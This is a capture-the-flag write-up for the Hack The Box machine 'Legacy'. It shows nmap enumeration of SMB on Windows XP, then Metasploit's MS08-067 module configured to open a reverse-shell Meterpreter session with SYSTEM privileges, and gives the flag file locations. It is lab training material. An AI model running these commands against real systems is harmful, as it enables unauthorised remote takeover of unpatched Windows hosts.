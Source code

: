 ```yaml
---
clayout: ctf
title: Legacy
date: 2025-08-24
image: /ctf/hack-the-box/machines/legacy/info-card.png
type: Hack The Box

ctf:
    - name: Legacy
      link: https://app.hackthebox.com/machines/2
      thumbnail: /ctf/hack-the-box/machines/legacy/info-card.png
      pwned:
        - link: https://labs.hackthebox.com/achievement/machine/585215/2
          thumbnail: /ctf/hack-the-box/machines/legacy/pwned.png
---
```


## Machine Overview

**Legacy** is a relatively simple, beginner‑level Hack The Box machine. It showcases the security risks associated with SMB on Windows, especially on older, unsupported systems. Only a single, publicly known exploit is required to achieve **administrator-level access**.

## Enumeration

### Nmap

We begin by scanning the machine for open ports and services:

```bash
nmap -A -oN nmap.txt 10.10.10.4
```

**Scan Results:**

```bash
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
```

::: info Observation
The machine exposes MSRPC and SMB services. Given the target OS is Windows XP, this strongly hints at known SMB-related vulnerabilities.
:::

### Vulnerability Scan

We extend our scan with the `smb-vuln*` NSE scripts:

```bash
nmap --script="smb-vuln*" -p 445 10.10.10.4
```

**Scan Results:**

- **MS17-010 (EternalBlue) – CVE-2017-0143**
  Remote Code Execution in SMBv1.

- **MS08-067 – CVE-2008-4250**
  Remote Code Execution in the Windows Server service.

## Exploitation

We use Metasploit's MS08-067 module to exploit the system:

```bash
msfconsole
use exploit/windows/smb/ms08_067_netapi
> set LHOST 10.10.14.12
> set RHOST 10.10.10.4
> run
```

**Successful exploitation:**

```bash
[*] Started reverse TCP handler on 10.10.14.12:4444
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (177734 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.10.10.4:1039) at 2025-08-24 10:19:12 +0200

meterpreter > pwd
C:\WINDOWS\system32
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
```

::: info Result
We now have a SYSTEM-level Meterpreter session, which provides **full administrative privileges**.
:::

On Windows XP, the `whoami` command is not available. Instead, in Meterpreter, the `getuid` command confirms the current user context.

::: info User & Root Flags

- User: `C:\Documents and Settings\john\Desktop\user.txt`
- Root: `C:\Documents and Settings\Administrator\Desktop\root.txt`
:::
